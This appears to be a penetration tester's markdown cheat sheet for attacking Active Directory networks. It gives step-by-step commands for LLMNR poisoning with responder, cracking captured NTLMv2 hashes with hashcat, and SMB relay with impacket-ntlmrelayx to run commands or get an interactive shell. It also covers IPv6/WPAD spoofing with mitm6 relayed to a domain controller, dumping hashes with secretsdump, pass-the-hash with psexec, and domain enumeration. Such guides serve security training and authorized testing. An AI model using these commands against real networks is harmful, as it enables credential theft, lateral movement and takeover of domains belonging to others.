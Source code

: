 # Active Directory

## Active Directory: Initial Attack

**Process**
1. Start by running responder or mitm6.
2. Run scans to generate traffic.
3. If scans are taking too long, look for websites in scope (http_verison).
4. Look for default credentials on web logins or vulnerabilities.
5. Try harder.

### LLMNR Poisoning
- Link Local Multicast Name Resolution (LLMNR)
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS.
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.
- With a MitM, you can observe the broadcast for people looking to connect to a share and crack the hash offline.

> **Note**
> ***
> You must be on the same network to capture this traffic.

1. To run the process:
````bash
sudo responder -I {interface} -dwP
````
![](images/responder.png)

2. Add hash to a .txt file.

3. Crack the hashes:
 ````bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
 ````
> **Tip**
> ***
> Its better to run hashcat on bare metal.
> To find what code to use grep the code, for example
> `hashcat --help | grep NTLM`

### SMB Relay
- Instead of cracking hashes we can relay those hashes to specific machines and potentially gain access.
- SMB signing must be disabled or not enforced.
    - You'll see this as an option with your NMAP script.

1. To start you need to adjust your responder.conf file to allow for this attack.
````bash
sudo vim /etc/responder/Responder.conf
````
- Set SMB and HTTP to off on lines 5 and 12 respectively.
![](images/responder_conf.png)

2. Run impacket. This will start similar to responder.
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami" 
````
OR to gain an interactive shell run:
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
````

> **Note**
> ***
> I previously created a file with the IP addresses of my targets and ran the command from that same folder.

![](images/smb_relay.png)

### IPv6 Attack
- This works off most computers using IPv4, but having IPv6 turned on. With no legitamate server for DNS on IPv6 we spoof that DNS to steal NTLM hashes then pass that to the DC.
- Only run this in small sprints, it can disable a network.

1. Setup ntlmrelayx.
````bash
impacket-ntlmrelayx -6 -t ldaps://{ip of DC} -wh fakewpad.{domain.local} -l {lootme}
````
> **Note**
> ***
> -6 is for ipv6\
> -t is for target\
> -wh Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied. The Web Proxy Auto-Discovery (WPAD) Protocol is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. Once detection and download of the configuration file is complete, it can be executed to determine the proxy for a specified URL.\
> -l Loot directory in which gathered loot such as SAM dumps will be stored. This is the fake name you want to create to find later

> **Warning**
> If you have issues, try reinstalling impacket using pimpmykali

2. Run mitm6 (this needs to be installed first)
````bash
sudo mitm6 -i eth0 -d {domain.local}
````

> **Note**
> ***
> By default mitm6 used my production interface so make sure you change the interface to the one that the DC is on.

3. Review your lootme file in the directory you ran the attack

![](images/lootme.png)

### Passback Attack
![A Pen Tester’s Guide to Printer Hacking](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

### Impacket
![Impacket is a collection of Python scripts that can be used by an attacker to target Windows network protocols. This tool can be used to enumerate users, capture hashes, move laterally and escalate privileges.](https://neil-fox.github.io/Impacket-usage-&-detection/)
- Impacket is a suite of tools that can help you get hashes and pass hashes. Read the full manual for more information
- With the new update, commands start with `impacket-{command}`. To see a full list type `impacket-[TAB][TAB]`

#### Get hashes if you have one password
- If you have one password you can use impacket to get hashes for the other accounts and then use those hashes to pass the hash, IE for the administrator. `impacket-secretsdump {domain}.local/{username}:'{Password}'@{IP}`

#### Secretsdump
- Used to get hashes if you have a regular user password.
````bash
impacket-secretsdump {domain}.local/{username}:{Password}@{IP of user machine}
````

#### Pass the Hash
- Pash the hash with `impacket-psexec [username]@[ip] -hashes [hash]`

## Active Directory: Post-Compromise Enumeration
- This stage starts after you have an account particular those that are only regular users.

**Process**
1. Review your lootme file or manually run the command `sudo ldapdomaindump ldaps://{IP} -u '{domain}\{user} -p {password}` to get that same information.